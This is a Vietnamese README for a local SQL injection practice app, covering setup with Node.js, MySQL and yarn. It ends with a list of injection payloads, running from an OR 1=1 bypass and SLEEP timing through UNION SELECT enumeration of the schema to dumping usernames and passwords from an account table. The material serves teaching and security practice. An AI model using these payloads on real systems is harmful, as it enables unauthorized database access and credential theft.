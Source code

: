 1. Cài ứng dụng
    - Nodejs
    - MySql
    - Vscode

2. Vào ứng dụng MySql và tạo một database "sql_injection"

3. Import database trong thư mục database vào mysql

4. Mở project bằng Vscode

5. Vào file database.js (src/model/database.js) chỉnh sửa "username" (dòng 5) và "password" (dòng 6) - chính là username và password của database cần kết nối

6. Mở terminal (cmd)

7. Gõ lệnh: 
    - npm install --global yarn (Nếu đã cài yarn thì không cần thực hiện câu lệnh này)
    - yarn
    - yarn start

8. Mở trình duyệt với url: "http://localhost:3000"

9. Các câu lệnh tấn công thử trên web:
    - ' OR 1 = 1 --
    - ' AND SLEEP(1) --
    - ' ORDER BY 4 --
    - ' ORDER BY 5 --
    - ' UNION SELECT 1, 2, 3, 4 --
    - ' UNION SELECT 1, GROUP_CONCAT(TABLE_NAME), 3, 4 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA= DATABASE() --
    - ' UNION SELECT 1, GROUP_CONCAT(COLUMN_NAME), 3, 4 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME= 'account' --
    - ' UNION SELECT id, password, username, 4 FROM account --

10. Note:
    - Trường hợp xảy ra lỗi khi chạy "yarn start" xem tại link "https://stackoverflow.com/questions/50093144/mysql-8-0-client-does-not-support-authentication-protocol-requested-by-server"
    - Đằng sau mỗi dấu -- ở phần 9 luôn có 1 dấu cách
